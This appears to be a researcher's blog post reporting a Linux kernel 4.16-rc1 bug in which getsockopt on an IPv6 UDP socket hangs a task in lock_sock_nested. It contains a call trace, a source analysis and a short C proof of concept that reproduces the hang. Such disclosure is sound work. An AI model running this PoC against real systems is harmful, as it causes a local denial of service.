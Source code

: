 ```yaml
---
layout: post
title: LK v4.16.x - getsockopt - task hung
author: zer0day
categories: lk
---
```


getsockopt - task hung in lock_sock_nested

posted & found by [zer0day](https://kozistr.github.io/)

## tl;dr

Posting in a long time :) because of other stuffs... I have a few LK bugs too, but skip it :)..

I just found a bug, task hung in lock_sock_nested on the latest LK (v4.16.0-rc1). Of course, from the conclusion, it's not critical and meaningless bug for me :(.
So i just simply add a short PoC which can reproduce a bug and Call Trace.

## Call Trace (Dump)

Here's a Call Trace. task hung (default 120s).

```c
root@zer0day:~# uname -a
Linux zer0day 4.16.0-rc1+ #14 SMP Wed Feb 14 17:44:19 KST 2018 x86_64 GNU/Linux
root@zer0day:~# gcc -o poc poc.c
root@zer0day:~# ./poc
[  369.631452] INFO: task poc:2481 blocked for more than 120 seconds.
[  369.633340]       Not tainted 4.16.0-rc1+ #14
[  369.634552] "echo 0 > /proc/sys/kernel/hung_task_timeout_secs" disables this message.
[  369.636478] poc             D13984  2481   2464 0x00000000
[  369.638015] Call Trace:
[  369.638825]  ? __schedule+0x2a9/0xa90
[  369.639792]  ? __local_bh_enable_ip+0x7b/0xe0
[  369.640823]  schedule+0x2a/0x80
[  369.641559]  __lock_sock+0xa1/0x130
[  369.642395]  ? finish_wait+0x80/0x80
[  369.643189]  lock_sock_nested+0x9f/0xb0
[  369.643383]  ipv6_getorigdst+0x9e/0x2c0
[  369.643572]  ? __mutex_unlock_slowpath+0x46/0x2b0
[  369.643811]  ? nf_getsockopt+0x47/0x80
[  369.643996]  nf_getsockopt+0x47/0x80
[  369.644185]  ipv6_getsockopt+0x10a/0x170
[  369.644380]  udpv6_getsockopt+0x40/0x80
[  369.644569]  SyS_getsockopt+0x84/0xf0
[  369.644754]  do_syscall_64+0x74/0x210
[  369.644941]  entry_SYSCALL_64_after_hwframe+0x26/0x9b
[  369.645200] RIP: 0033:0x7f340483008a
[  369.645376] RSP: 002b:00007ffd08d09478 EFLAGS: 00000206 ORIG_RAX: 0000000000000037
[  369.645742] RAX: ffffffffffffffda RBX: 0000000000000000 RCX: 00007f340483008a
[  369.646101] RDX: 0000000000000050 RSI: 0000000000000029 RDI: 0000000000000003
[  369.646443] RBP: 00007ffd08d09490 R08: 00007ffd08d09480 R09: 00007f3404aec2e0
[  369.646785] R10: 0000000000000000 R11: 0000000000000206 R12: 0000000000400450
[  369.647148] R13: 00007ffd08d09570 R14: 0000000000000000 R15: 0000000000000000
[  369.647499] 
[  369.647499] Showing all locks held in the system:
[  369.647802] 1 lock held by khungtaskd/439:
[  369.648026]  #0:  (tasklist_lock){.+.+}, at: [<00000000d02fdb21>] debug_show_all_locks+0x37/0x1a0
[  369.648470] 1 lock held by rsyslogd/2361:
[  369.648687]  #0:  (&f->f_pos_lock){+.+.}, at: [<0000000066b64151>] __fdget_pos+0x52/0x60
[  369.649092] 2 locks held by getty/2444:
[  369.649279]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.649714]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.650156] 2 locks held by getty/2445:
[  369.650343]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.650762]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.651203] 2 locks held by getty/2446:
[  369.651390]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.651813]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.652256] 2 locks held by getty/2447:
[  369.652443]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.652864]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.653305] 2 locks held by getty/2448:
[  369.653492]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.653915]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.654356] 2 locks held by getty/2449:
[  369.654542]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.654961]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.655424] 1 lock held by poc/2481:
[  369.655599]  #0:  (sk_lock-AF_INET6){+.+.}, at: [<000000002374a639>] ipv6_getsockopt+0xf2/0x170
[  369.656030] 
[  369.656108] =============================================
[  369.656108]
```

## Bug

With above Call Trace, i can notice, there is a lock_sock_nested in ipv6_getorigdst where the bug happened. 
At **/net/ipv6/netfilter/nf_conntrack_l3proto_ipv6.c:233**,

```c
...
static int
ipv6_getorigdst(struct sock *sk, int optval, void __user *user, int *len)
{
	struct nf_conntrack_tuple tuple = { .src.l3num = NFPROTO_IPV6 };
	const struct ipv6_pinfo *inet6 = inet6_sk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct nf_conntrack_tuple_hash *h;
	struct sockaddr_in6 sin6;
	struct nf_conn *ct;
	__be32 flow_label;
	int bound_dev_if;

	lock_sock(sk);
	tuple.src.u3.in6 = sk->sk_v6_rcv_saddr;
	tuple.src.u.tcp.port = inet->inet_sport;
	tuple.dst.u3.in6 = sk->sk_v6_daddr;
	tuple.dst.u.tcp.port = inet->inet_dport;
	tuple.dst.protonum = sk->sk_protocol;
	bound_dev_if = sk->sk_bound_dev_if;
	flow_label = inet6->flow_label;
	release_sock(sk);
	...
```

As you also know, **lock_sock_nested** looks like below... (*subclass* is zero in this case))

```c
void lock_sock_nested(struct sock *sk, int subclass)
{
	might_sleep(); // debug message is printed by this.
	spin_lock_bh(&sk->sk_lock.slock);
	if (sk->sk_lock.owned)
		__lock_sock(sk);
	sk->sk_lock.owned = 1;
	spin_unlock(&sk->sk_lock.slock);
	/*
	 * The sk_lock has mutex_lock() semantics here:
	 */
	mutex_acquire(&sk->sk_lock.dep_map, subclass, 0, _RET_IP_);
	local_bh_enable();
}
```

In short, maybe, there is a task hung in ipv6_getorigdst while holding the socket lock, so it's blocking other tasks too.

## POC

Here's a PoC code for reproducing.

```c
#define _GNU_SOURCE 

#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

int main() {
	int size = 4;
	void *p = (void *)0;

	int s = socket(0xa, 2, 0);           // socket@inet6_udp
	getsockopt(s, 0x29, 0x50, p, &size); // getsockopt@inet6_int

	return 0;
}
```

**END**

